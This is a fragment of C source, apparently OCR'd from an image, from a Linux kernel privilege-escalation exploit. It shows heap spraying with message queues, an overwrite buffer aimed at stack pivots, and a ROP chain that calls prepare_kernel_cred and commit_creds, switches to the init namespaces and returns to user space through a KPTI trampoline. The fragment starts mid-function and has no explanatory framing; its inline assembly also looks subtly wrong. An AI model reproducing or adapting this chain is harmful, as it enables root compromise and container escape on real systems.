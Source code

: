 ```c
            }
        }

        if (!ready)
        {
            puts("nothing ready for ignition, trying again");
            // re-stuff freelist and stabilize
            stuff_4k(16);
        }
    }

    char overwrite[0x300] = {0};
    memset(overwrite, 0x41, sizeof(overwrite));
    uint64_t *overwrite_ptr = (uint64_t *)overwrite;

    // redirect to "table" of stack pivots
    overwrite_ptr[1] = kmalloc_512 + 0x50;

    uint64_t user_rflags, user_cs, user_ss, user_sp;
    asm volatile(
        "mov %0, %%cs\n"
        "mov %1, %%ss\n"
        "mov %2, %%rsp\n"
        "pushfq\n"
        "pop %3\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags)
    );

    uint64_t chain[] = 
    {
        pop_rdi,
        0,
        prepare_kernel_cred,
        pop_rsi,
        0xbaadbabe,
        cmov_rdi_rax_esi_nz_pop_rbp,
        0xdeadbeef,
        commit_creds,
        pop_rdi,
        1,
        find_task_by_vpid,
        pop_rsi,
        0xbaadbabe,
        cmov_rdi_rax_esi_nz_pop_rbp,
        0xdeadbeef,
        pop_rsi,
        init_nsproxy,
        switch_task_namespaces,
        kpti_trampoline,
        0xdeadbeef,
        0xbaadf00d,
        (uint64_t)pwned,
        user_cs,
        user_rflags,
        user_sp & 0xffffffffffffff00,
        user_ss,
    };

    memcpy(&overwrite_ptr[2], chain, sizeof(chain));

    for (int i = 0; i < P_SPRAY; i++)
    {
        get_msg(targets[i], recieved, size-0x30, 0, IPC_NOWAIT | MSG_NOERROR);
```
